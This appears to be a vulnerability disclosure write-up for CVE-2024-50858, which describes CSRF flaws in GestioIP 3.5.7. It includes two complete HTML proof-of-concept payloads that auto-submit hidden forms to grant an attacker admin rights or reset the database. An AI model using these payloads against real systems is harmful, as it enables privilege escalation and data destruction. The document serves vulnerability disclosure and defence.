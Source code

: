 ```yaml
---
title: "CVE-2024-50858. GestioIP Vulnerability: CSRF"
description: Auth. Cross-Site Request Forgery
date: 2025-01-13T12:28:27-03:00
author: Maximiliano Belino
author website: https://belino.com
lang: en
tags:
  - vulnerability
  - CVE
  - CSRF
---
```

# CVE-2024-50858


- [Information](#information)
- [Example 1 - Leading to Privilege Escalation](#example-1---leading-to-privilege-escalation)
	- [Information](#information)
	- [Proof-of-Concept Exploit](#proof-of-concept-exploit)
		- [Description](#description)
		- [Prerequisite](#prerequisite)
		- [Usage/Exploitation](#usageexploitation)
- [Example 2 - Reset database](#example-2---reset-database)
	- [Information](#information)
	- [Proof-of-Concept Exploit](#proof-of-concept-exploit)
		- [Description](#description)
		- [Usage/Exploitation](#usageexploitation)
- [Payloads](#payloads)


## Information


### Description

The GestioIP application has many endpoints and they are vulnerable to CSRF. This allows an attacker to execute actions through the admin's browser on the application if the admin visits a malicious URL hosted by the attacker. These actions can modify, delete, or exfiltrate data from the application.
Two examples are described below.


**Versions Affected:** 3.5.7 


## Example 1 - Leading to Privilege Escalation

### Information

**Description:** The `ip_mod_user` request is vulnerable to Cross Site Request Forgery (CSRF) leading to privilege escalation. <br> 

### Proof-of-Concept Exploit

#### Description

The `ip_mod_user` feature of GestioIP 3.5.7 is vulnerable to Cross Site Request Forgery (CSRF) leading to privilege escalation. If an administrator goes to a malicious URL while being authenticated to the GestioIP application, the CSRF will execute making the attacker and administrator user in the application. 

#### Prerequisite

The option "Manage - Manage GestioIP - User Management" must be enabled previously.

![](files/CVE-2024-50858.png)


#### Usage/Exploitation

To exploit this vulnerability, an attacker must host ```payload8a.html``` on an attacker-controlled web server. When an authenticated administrator goes to the attacker's website, the CSRF will execute making the attacker an administrator.

Before accessing the malicious link:

![](files/CVE-2024-50858-3.png)


After clicking the malicious link:

![](files/CVE-2024-50858-1.png)


Let's check users again:

![](files/CVE-2024-50858-2.png)



## Example 2 - Reset database

### Information

**Description:** The `ip_manage_gestioip` request is vulnerable to Cross Site Request Forgery (CSRF) leading to a database reset (deleting data). <br> 

### Proof-of-Concept Exploit

#### Description

The `ip_manage_gestioip` feature of GestioIP 3.5.7 is vulnerable to Cross Site Request Forgery (CSRF) leading to a database reset. If an administrator clicks the malicious URL while being authenticated to the GestioIP application, the CSRF will execute deleting all networks registered in the app for a specific client (default client is named DEFAULT).


### Usage/Exploitation

To exploit this vulnerability, an attacker must host ```payload9.html``` on an attacker-controlled web server. When an authenticated administrator goes to the attacker's website, the CSRF will execute deleting all the networks registered in the app in the specified client.


After clicking the malicious URL:

![](files/CVE-2024-50858-5.png)

![](files/CVE-2024-50858-4.png)


## Payloads


`payload8a.html`

```html
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>Welcome to our site</title>
<style>
body {
font-family: Arial, sans-serif;
text-align: center;
}
.container {
margin-top: 50px;
}
iframe {
display: none;
}
</style>
</head>
<body>
<div class="container">
<h1>Thank you for visiting our site!</h1>
<p>We are processing your request, please wait a moment...</p>
<img src="https://placehold.co/150?text=Processing" alt="Processing...">
</div>
<!-- hidden iframe -->

<iframe name="hiddenFrame"></iframe>

<!-- The form that makes the POST to GestioIP Server -->
<form action="[http://localhost/gestioip/res/ip_mod_user.cgi](http://localhost/gestioip/res/ip_mod_user.cgi)" method="POST" target="hiddenFrame">
<input type="hidden" name="name" value="maxi">
<input type="hidden" name="group_id" value="1">
<input type="hidden" name="email" value="maxi@test.com">
<input type="hidden" name="phone" value="123">
<input type="hidden" name="comment" value="">
<input type="hidden" name="client_id" value="1">
<input type="hidden" name="id" value="2">
<input type="hidden" name="B2" value="">
</form>
<script>
history.pushState('', '', '/');
document.forms[0].submit();
</script>
</body>
</html>
```


`payload9.html`

``` html
<html>
    <body>
        <iframe name="hiddenFrame" style="display:none;"></iframe>

        <form action="http://localhost/gestioip/res/ip_manage_gestioip.cgi" method="POST" target="hiddenFrame">
            <input type="hidden" name="reset_database_ipv4" value="yes">
            <input type="hidden" name="reset_database_ipv6" value="yes">
            <input type="hidden" name="manage_type" value="reset_database">
            <input type="hidden" name="client_id" value="1">
            <input type="hidden" name="B1" value="reset database">
        </form>

        <script>
            history.pushState('', '', '/');
            document.forms[0].submit();
        </script>
    </body>
</html>
```
